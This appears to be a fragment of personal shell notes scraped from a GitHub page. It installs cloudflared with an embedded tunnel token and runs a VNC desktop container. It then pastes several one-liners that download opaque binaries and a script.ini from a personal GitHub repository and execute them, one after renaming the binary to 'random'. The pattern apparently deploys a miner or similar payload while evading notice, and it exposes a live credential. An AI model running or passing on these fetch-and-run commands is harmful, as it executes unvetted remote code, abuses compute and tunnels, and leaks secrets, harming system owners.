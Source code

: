 # curl -L --output cloudflared.deb https://github.com/cloudflare/cloudflared/releases/latest/download/cloudflared-linux-amd64.deb && 

sudo dpkg -i cloudflared.deb && 

sudo cloudflared service install eyJhIjoiYTAyNDU4ODdkZmQ4YTc3Yjk4MWM5ZjgyOGVlYjA3NTEiLCJ0IjoiYTY5ODkzZjAtNzY1ZC00NTgyLTgyNDctMGY0MTVlZjVlZDhkIiwicyI6IlltUTJZV015WVRndE5qa3lPQzAwWkRCbExUa3lPVEF0WWpjMk5HTTNOekEwWm1ObCJ9

docker run -p 6070:80 -e RESOLUTION=1200x650 dorowu/ubuntu-desktop-lxde-vnc
 # wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/gas && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x gas && ./gas script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && chmod +x cok && ./cok script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/cok && wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/script.ini && mv cok random && chmod +x random && ./random script.ini

# wget https://raw.githubusercontent.com/penjelajahwaktu/sss/main/n.sh && chmod +x n.sh && ./n.sh
